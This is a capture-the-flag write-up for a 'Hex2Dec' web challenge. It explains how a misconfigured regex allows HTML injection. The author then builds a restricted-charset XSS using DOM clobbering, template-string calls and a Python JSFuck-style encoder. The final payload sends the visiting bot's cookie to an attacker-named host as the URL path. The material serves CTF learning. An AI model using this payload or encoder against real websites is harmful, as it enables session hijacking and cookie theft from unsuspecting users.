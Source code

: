 # Hex2Dec
## The Basics
On first load of the site, we were greated by the following screen:

![image](https://github.com/L-T-B/CTFS/assets/62217895/19b49941-4dfb-4f0f-b808-8fe14a57b921)

When submitting a hex value the website was updated to include the value:

![image](https://github.com/L-T-B/CTFS/assets/62217895/29fce33a-0686-4d6b-bf46-832c535c1be2)

Looking under the hood we can see the following javascript:

![image](https://github.com/L-T-B/CTFS/assets/62217895/da31b2c0-3b45-4a35-a3c2-8b99a8afdcba)

On closer inspection we can find that the regex (`^[0-f +-]+$`) is misconfigured and includes all chars between charcode 48 and 102 as well as plus, minus and space.
So our full list of characters is:
```
0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcde +-
```
With this knowledge we can try a simple HTML injection for testing purposes. 
The payload `<a HREF=TEST>` will produce a simple hyperlink to `./TEST`. (Note the attribute isn't closed which results in the NaN of the conversion also being included in the hypertext.)

![image](https://github.com/L-T-B/CTFS/assets/62217895/2e52153a-02ea-44b3-8d08-5c54555788c4)

## Converting this into an XSS
The basic idea of the exploit will be creating some exploit similar to:

`<IMG SRC ONERROR={our javascript code}>`

But we are limited to only a few lowercase chars and can't use any parentheses. But what we can use are javascript template strings which can call a function without using any parentheses.
For example the following code 
```
alert`XSS`
```
is equal to 
`alert("XSS")`

An other crucial step is getting the access to the document variable. A great gadget is here a [dom clobbering attack](https://portswigger.net/web-security/dom-based/dom-clobbering). 
We just give our Image Element an ID such as `AA` and we can access all the Image attributes from our js.
So for example `AA.src` is the equialent of `this.src`. 

But we are interested in the `document` so we will use `AA.ownerDocument`. We can't use a point so we need different a way to access all the fields. 
Luckly there's a handy way to access attributes in Javascript using the brackets. So we can rewrite our exploit and include this:

```
AA[`ownerDocument`]
```

For creating lowercase Strings we can look into JSF*ck. There is already a [great repo](https://github.com/aemkei/jsfuck) explain all the different tricks for getting an characters so I won't go into detail.

For creating any string which only contained ascii letters I wrote this small python script
```py
import re
import string


gadgets = {'false': "[[1==2]+[]][0]", "true": "[[1==1]+[]][0]", "undefined": "[[][[]]+[]][0]",
           "function find() { [native code] }": "[[][[[][[]]+[]][0][4]+[[][[]]+[]][0]["
                                                "5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]"
                                                " +[]][0]", 'Infinity': '[+("1e309")+['
                                                                        ']][0]',
           "function String() { [native code] }": "[``[`c`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0]["
                                                  "1]+[[][[]]+[]][0][2]] +[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0]["
                                                  "3]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][["
                                                  "]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][0]+`c`+[["
                                                  "][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+["
                                                  "]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][["
                                                  "]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][6]+[[1==1]+[]][0][1]]+[]]["
                                                  "0]"}

payload = "toLowerCase"
scraps = []

for c in payload:
    if re.match("^[0-f +-]+$", c):
        scraps.append("`" + c + "`")
        continue
    for gadget in gadgets:
        if c in gadget:
            scraps.append(gadgets[gadget] + f"[{gadget.index(c)}]")
            break
    else:
        scraps.append(
            f"{string.ascii_lowercase.index(c) + 10}[[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][["
            f"]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+["
            f"]][0][6]+`S`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[["
            f"1==1]+[]][0][1]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[``[`c`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[["
            f"][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0][3]+[[][[[][[]]+[]][0]["
            f"4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0]["
            f"0]+`c`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][4]+[[][[[]["
            f"[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]] +[]][0][6]+[[1==1]+[]][0][1]]+[]]["
            f"0][14]]`36`")

print("+".join(scraps).replace(" ", ""))
```

With this script we can create a simple XSS:
```js
AA[{enc("ownerDocument")][{enc("location")}]=`JAVASCRIPT:`+{enc("alert")+`\`XSS\``}
```
But this is quite inefficient and needs alot of chars for an exploit. This resulted in the server not accepting the request and returning.

## The Final Exploit

For cutting down the payload size I only encoded `toLowerCase`. With this method it is possible to create string such as `"DOCUMENT"["toLowerCase]()` and create a lowercase String (`"document"`).

So we first define a variable in this case `CC` and set it equal to the value from our python encoder script:
```
CC=[[1==1]+[]][0][0]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][
0][2]]+[]][0][6]+`L`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+32[[[][[[
][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][
0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+`S`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[
][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[``[`c`+[[][[[][[]]+[]][0][4]+[[][[
]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0][3]+[[][[[][[]]+[]][0][
4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][0]+`c`+[[][[[][[
]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][
5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[1==1]+[]][0][1]]+[]][0][14]]`36`+`e`+[[1==1]+[]][0][1]+`C`+`a`+[[
1==2]+[]][0][3]+`e`
```

Again this is equal to `CC="toLowerCase"`.
With this variable the reset of the exploit is actually quite simple.
We first get the document.location and saving it in `BB` through calling 
```
BB=AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``]
```
After that we get the location as a string (useful for getting the `/` and the `.` char) and saving it in the variable `D`:
```
D=[BB+[]][0]
```
And lastly, redirecting the bot to our attacker controlled URL (Note `D[6]` = `/` and `D[18]`=`.`) witht the cookie as the path:
```
AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``]=
`HTTPS:`[CC]``+D[6]+D[6]+`ATTACKER`+D[18]+`COM`+D[6]+AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`COOKIE`[CC]``];
```

So putting all the pieces together we get (Note remove the new lines, those are for better readablity):
```html
<IMG SRC ID=AA ONERROR=CC=[[1==1]+[]][0][0]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][
0][2]]+[]][0][6]+`L`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+32[[[][[[
][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][
0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+`S`+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[
][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[``[`c`+[[][[[][[]]+[]][0][4]+[[][[
]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[][[]]+[]][0][1]+[[1==2]+[]][0][3]+[[][[[][[]]+[]][0][
4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[1==1]+[]][0][1]+[[][[]]+[]][0][0]+`c`+[[][[[][[
]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][4]+[[][[[][[]]+[]][0][4]+[[][[]]+[]][0][
5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][6]+[[1==1]+[]][0][1]]+[]][0][14]]`36`+`e`+[[1==1]+[]][0][1]+`C`+`a`+[[
1==2]+[]][0][3]+`e`;BB=AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``];D=[BB+[]][0];AA[`OWNER`[
CC]``+`D`+`OCUMENT`[CC]``][`LOCATION`[CC]``]=`HTTPS:`[CC]``+D[6]+D[6]+`PART`+D[18]+`OTHER`+D[18]+`Baa`+D[
18]+`COM`+D[6]+AA[`OWNER`[CC]``+`D`+`OCUMENT`[CC]``][`COOKIE`[CC]``];>
```

## Thank's for reading!
